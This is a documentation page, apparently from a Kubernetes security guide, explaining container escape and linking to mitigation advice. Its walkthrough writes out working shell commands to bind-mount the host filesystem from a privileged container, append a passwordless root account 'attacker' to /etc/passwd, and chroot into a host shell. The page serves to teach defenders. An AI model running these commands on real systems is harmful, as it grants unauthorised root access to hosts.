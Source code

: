 ```yaml
---
sidebar_position: 7
title: "Container Escape"
description: "Understanding container escape vulnerabilities and how attackers break out of containers to compromise the host system."
---
```


# Container Escape

A **container escape** occurs when an attacker exploits vulnerabilities in a containerized environment to **break out of the container** and gain access to the **underlying host system**. This can lead to **privilege escalation, data exfiltration, and full cluster compromise**.

---

## Exploitation Steps: Breaking Out of a Container

An attacker gains access to a misconfigured or vulnerable container and attempts to escape to the host.

### Step 1: Identify the Environment

The attacker checks if the container is running as **privileged** or has access to the host filesystem:

```bash
cat /proc/1/cgroup
ls -la /root
```

If the output reveals unrestricted access, the attacker proceeds to escape.

### Step 2: Mount the Host Filesystem

The attacker attempts to mount the host filesystem inside the container:

```bash
mkdir /mnt/host
mount -o bind / /mnt/host
```

### Step 3: Escalate Privileges

If the container runs as root and `/mnt/host` is accessible, the attacker can create a new root user on the host:

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /mnt/host/etc/passwd
```

### Step 4: Gain a Host Shell

The attacker spawns a shell on the host system:

```bash
chroot /mnt/host /bin/bash
```

### Result

The attacker has escaped the container and now has **full access to the host**, enabling them to modify files, execute commands, and potentially compromise the entire cluster.

---

## Mitigation Steps

To prevent container escape vulnerabilities, follow the security best practices outlined in:

➡ **[Preventing Container Escape](/docs/best_practices/cluster_setup_and_hardening/pod_security/container_escape_mitigation)**

This guide covers techniques such as **disabling privileged containers, restricting host filesystem access, enforcing least privilege principles, and applying security policies** to mitigate container escape risks.
